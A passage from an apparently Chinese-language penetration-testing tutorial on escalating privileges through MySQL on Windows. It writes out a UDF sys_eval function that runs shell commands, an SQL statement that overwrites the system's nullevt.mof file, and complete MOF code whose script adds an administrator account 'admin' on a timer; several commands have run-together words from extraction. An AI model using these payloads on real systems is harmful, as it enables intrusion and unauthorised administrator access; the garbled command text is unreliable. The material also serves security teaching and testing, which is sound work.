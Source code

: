 php 文件已集成了相关导出功能，点击导出即可：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LiblRxA4GYoKQfR1lAcH5KbCoeDfHCVgQ4VG6iaSwOxqZVLb5ax2VAosvQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibHDgvFLqX1XOG7InCYTBICPKctCNyticLqE9AUuoMTZ0SDfwen3Y9brQ/640?wx_fmt=png)

创建函数：createfunction sys_eval returns string soname 'udf.dll';

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibXaC4X0HxvxoqapKuFOfiaw4ey7DFnZn7qrTU3RicjzcU8MTyZIzicaA9Q/640?wx_fmt=png)

执行 shell 命令：selectsys_eval('net user');

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibvscU04FM1tcJDCHG540yVounM6LI74BCgZdsQIgq5zs8F9XK5SycQQ/640?wx_fmt=png)

##### **MOF 提权**

mof 是 windows 系统的一个文件（在 c:/windows/system32/wbem/mof/nullevt.mof）叫做 " 托管对象格式 " 其作用是每隔五秒就会去监控进程创建和死亡。MOF 提权的原理就是当拥有 mysql 的 root 权限了以后，然后使用 sql 语句将系统当中默认的 nullevt.mof 给替换掉，进而让系统执行我们这个恶意的 mof 文件。

替换的 sql 语句：selectload_file('D:\wamp\my.mof') into dumpfile'c:/windows/system32/wbem/mof/nullevt.mof';

mof 文件代码如下所示：

```
#pragmanamespace("\\\\.\\root\\subscription")


instanceof __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instanceof ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = newActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exeuser admin admin /add\")";
};
instanceof __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

有可能权限不够文件写入 c:/windows/system32/ 目录失败，或者被防护软件拦截等情况出现。

##### **启动项提权**
